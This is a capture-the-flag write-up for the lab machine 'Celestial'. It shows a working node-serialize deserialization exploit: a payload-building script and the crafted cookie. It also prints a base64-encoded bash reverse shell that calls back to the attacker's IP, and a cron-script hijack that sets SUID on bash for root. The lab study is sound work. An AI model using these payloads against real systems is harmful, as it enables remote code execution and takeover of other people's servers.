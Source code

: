 ```yaml
---
layout: default
---
```


# Celestial

# Skills

# Enumeration

IP → 10.10.10.85

Port scan

```bash
PORT     STATE SERVICE REASON  VERSION
3000/tcp open  http    syn-ack Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### Port 3000

### Headers and Tech

```bash
┌──(kali㉿kali)-[~/machines/linux/celestial/enumeration]
└─$ curl -I http://10.10.10.85:3000
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Sat, 02 Dec 2023 10:49:07 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 12
ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
Date: Sat, 02 Dec 2023 10:34:07 GMT
Connection: keep-alive

┌──(kali㉿kali)-[~/machines/linux/celestial/enumeration]
└─$ whatweb 10.10.10.85:3000                                                                 
http://10.10.10.85:3000 [200 OK] Cookies[profile], Country[RESERVED][ZZ], HttpOnly[profile], IP[10.10.10.85], X-Powered-By[Express]
```

- Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Sat, 02 Dec 2023 10:49:07 GMT; HttpOnly

### Fuzzing

Nothing

### Enumeration

The cookie value decoded is:

- `{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}`

Two possible attacks

- SSTI
- Node deserialization attack

When sending an incorrect payload we obtain an error.

```bash
SyntaxError: Unexpected token :
    at Object.parse (native)
    at Object.exports.unserialize (/home/sun/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/sun/server.js:11:24
    at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/sun/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/sun/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/sun/node_modules/express/lib/router/layer.js:95:5)
    at /home/sun/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/sun/node_modules/express/lib/router/index.js:335:12)
    at next (/home/sun/node_modules/express/lib/router/index.js:275:10)
```

# Foothold

From the error we can see that there is a deserialization process. To exploit this we can use the following script in JS.

```bash
let f = {rce: function() {require('child_process').exec('ping -c 1 10.10.14.5', function(error, stdout, stderr) { console.log(stdout); });},};

let y = {"username":f,"country":f,"city":f,"num":1};
  
let serialize = require('node-serialize');
console.log("Serialized: \n" + Buffer.from(serialize.serialize(y)).toString('base64'));

console.log(serialize.serialize(y))
```

In this blog we can see how this actually exploted [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

When we execute this we will obtain the cookie and the cookie in base64. We need the cookie in plain text and we will add `()` at the end of it to immediately execute the function once is deserialized.

- `{"username":{"rce":"*$$ND_FUNC$$function() {require('child_process').exec('ping -c 1 10.10.14.5', function(error, stdout, stderr) { console.log(stdout); });} ()"},"country":"$$ND_CC$$*$*$$.$$username","city":"$$ND_CC$$*$_$$.$$_username","num":1}`

If we pass this as the cookie we will receive a ping.

```bash
┌──(kali㉿kali)-[~/machines/linux/celestial]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:29:36.147278 IP 10.10.10.85 > 10.10.14.5: ICMP echo request, id 7446, seq 1, length 64
12:29:36.147470 IP 10.10.14.5 > 10.10.10.85: ICMP echo reply, id 7446, seq 1, length 64
12:34:25.692854 IP 10.10.10.85 > 10.10.14.5: ICMP echo request, id 7463, seq 1, length 64
12:34:25.692885 IP 10.10.14.5 > 10.10.10.85: ICMP echo reply, id 7463, seq 1, length 64
```

To obtain a shell I will use the following payload.

- `echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MyAwPiYxIgo= | base64 -d | bash`

And we obtain a shell in the listener.

```bash
sun@celestial:~$ id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

# Privilege escalation

If we launch linpeas we will see that the system may be vulnerable to a kernel exploit, but it don’t actually work.

If check the user home directory we will see in Documents a `script.py` . Launching pspy an waiting 5 minutes we will see that there is a cronjob running.

```bash
2023/12/02 07:07:02 CMD: UID=0     PID=1      | /sbin/init splash 
2023/12/02 07:08:01 CMD: UID=1000  PID=26622  | nodejs /home/sun/server.js 
2023/12/02 07:08:01 CMD: UID=1000  PID=26621  | /bin/sh -c nodejs /home/sun/server.js >/dev/null 2>&1 
2023/12/02 07:08:01 CMD: UID=0     PID=26620  | /usr/sbin/CRON -f 
2023/12/02 07:09:01 CMD: UID=1000  PID=26631  | nodejs /home/sun/server.js 
2023/12/02 07:09:01 CMD: UID=1000  PID=26630  | /bin/sh -c nodejs /home/sun/server.js >/dev/null 2>&1 
2023/12/02 07:09:01 CMD: UID=0     PID=26629  | /usr/sbin/CRON -f 
2023/12/02 07:10:01 CMD: UID=0     PID=26642  | python /home/sun/Documents/script.py 
2023/12/02 07:10:01 CMD: UID=0     PID=26641  | /usr/sbin/CRON -f 
2023/12/02 07:10:01 CMD: UID=0     PID=26640  | /bin/sh -c python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py                                                                                                                                     
2023/12/02 07:10:01 CMD: UID=0     PID=26639  | /usr/sbin/CRON -f 
2023/12/02 07:10:01 CMD: UID=0     PID=26638  | /usr/sbin/CRON -f 
2023/12/02 07:10:01 CMD: UID=1000  PID=26643  | nodejs /home/sun/server.js 
2023/12/02 07:10:01 CMD: UID=0     PID=26648  | python /home/sun/Documents/script.py
```

Root execute that script so we simply has to change it to set the bash with the SUID bit and wait another 5 minutes.

```bash
sun@celestial:~$ ls -la /bin/bash 
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
sun@celestial:~$ bash -p
bash-4.3# whoami
root
```
